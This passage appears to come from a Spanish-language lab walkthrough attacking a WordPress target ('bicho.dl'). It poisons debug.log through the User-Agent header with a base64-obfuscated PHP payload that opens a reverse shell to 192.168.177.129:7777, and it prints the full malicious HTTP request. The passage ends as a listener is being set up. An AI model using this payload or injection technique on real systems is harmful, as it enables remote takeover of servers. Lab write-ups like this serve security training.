 Recargamos el `debug.log` y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

Veremos que se esta injectando, por lo que esta funcionando, pero si ponemos un `exec` directamente, no va a funcionar, por lo que vamos a codificar el `payload` y ejecutarlo de la siguiente forma:

```php
<?php echo `printf c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzcuMTI5Lzc3NzcgMD4mMQ==|base64 -d|bash`;?>
```

Ahora la peticion tendra que quedar de la siguiente forma:

```
POST /wp-login.php HTTP/1.1
Host: bicho.dl
User-Agent: <?php echo `printf c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzcuMTI5Lzc3NzcgMD4mMQ==|base64 -d|bash`;?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://bicho.dl/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://bicho.dl
Connection: keep-alive
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Priority: u=0, i

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2Fbicho.dl%2Fwp-admin%2F&testcookie=1
```

Antes de enviarla nos pondremos a la escucha:
